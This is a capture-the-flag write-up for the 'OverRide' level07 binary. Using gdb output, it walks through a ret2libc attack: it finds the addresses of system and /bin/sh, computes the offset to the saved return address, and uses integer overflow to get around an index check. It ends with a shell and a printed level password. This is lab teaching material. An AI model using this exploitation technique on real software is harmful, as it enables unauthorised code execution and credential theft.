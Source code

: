 If we run our program, we can see that we have only three commands for
store, read data and exit. Let's dive into gdb.
In the first part of the main function program will make kind of bzero for argv and envp.
Good thing—there is not any check for position to store and read data from except
the index can't be divisible by 3.
Our goal is to rewrite the return address of the main function to address of system function and pass address of /bin/sh as argument.
First of all - let's find the address of system function and /bin/sh string.
```gdb
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
```
We can see that the address of the system function is `0xf7e6aed0` and address of /bin/sh is `0xf7f897ec`.

Let's find the address of buffer in memory. To do that, we can set breakpoint on store function and check the address of buffer.
Inside store function set a breakpoint and check ebp+0x8.
```gdb
Input command: store
 Number: 42
 Index: 1

Breakpoint 1, 0x080486c8 in store_number ()
(gdb) x /x $ebp+0x8
0xffffd400:	0xffffd424
```
Okay, we have address of buffer - `0xffffd424`. Now it's time to find the address of EIP.
Let's set breakpoint before store function and check the address of EIP.
```gdb
(gdb) b *0x080488ea
Breakpoint 1 at 0x80488ea
(gdb) r
...
(gdb) i f
Stack level 0, frame at 0xffffd5f0:
 eip = 0x80488ea in main; saved eip 0xf7e45513
 Arglist at 0xffffd5e8, args:
 Locals at 0xffffd5e8, Previous frame's sp is 0xffffd5f0
 Saved registers:
  ebx at 0xffffd5dc, ebp at 0xffffd5e8, esi at 0xffffd5e0, edi at 0xffffd5e4, eip at 0xffffd5ec
```
eip is 0xffffd5ec. Now we can calculate offset between buffer and EIP.
```python
0xffffd5ec - 0xffffd424
456
456 / 4
114.0
```
Offset is 114. Now we can start to exploit program.
We can't use 114 as index because it's divisible by 3. But we con overflow integer to pass this check.
```
( 4294967296 / 4 ) + 114 ) = 1073741938
```
So now we should store the address of system function (0xf7e6aed0 == 4159090384) to index 114 (1073741938) and
address of /bin/sh (0xf7f897ec == 4160264172) to index 116. After exit from the program, the next eip will be the address of system function.
```
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
Aaaand we're done.
